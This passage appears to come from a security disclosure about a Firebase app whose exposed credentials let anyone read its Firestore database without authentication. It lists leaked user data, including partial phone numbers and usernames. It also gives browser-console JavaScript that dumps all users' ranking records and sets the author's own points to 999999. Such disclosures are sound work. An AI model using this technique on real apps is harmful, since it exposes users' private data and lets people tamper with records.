 #### **Compromised Information**
Documents contain sensitive data partially exposed:

```json
{
    "points": 4510,
    "number": "XXXXX",  // Part of phone number
    "name": "XXXX"
}
```

#### **Exposed Data**
- **Parts of user phone numbers**
- **Real usernames**
- **Community scores and activity**
- **Document IDs** that may reveal patterns



## Practical Demonstration

### Access from Firebase Console

With the exposed credentials, anyone can:

1. **Access Firebase Console** with the Project ID
2. **Connect to Firestore** directly
3. **Read collections** without authentication
4. **Modify documents** if permissions allow

### Point Manipulation

```javascript
// From browser console
const db = firebase.firestore();

// Read other users' data
db.collection('ranking').get().then((snapshot) => {
    snapshot.forEach((doc) => {
        console.log(doc.id, doc.data());
    });
});

// Modify my own points
db.collection('ranking').doc('[MY_DOC_ID]').update({
    points: 999999
});
```
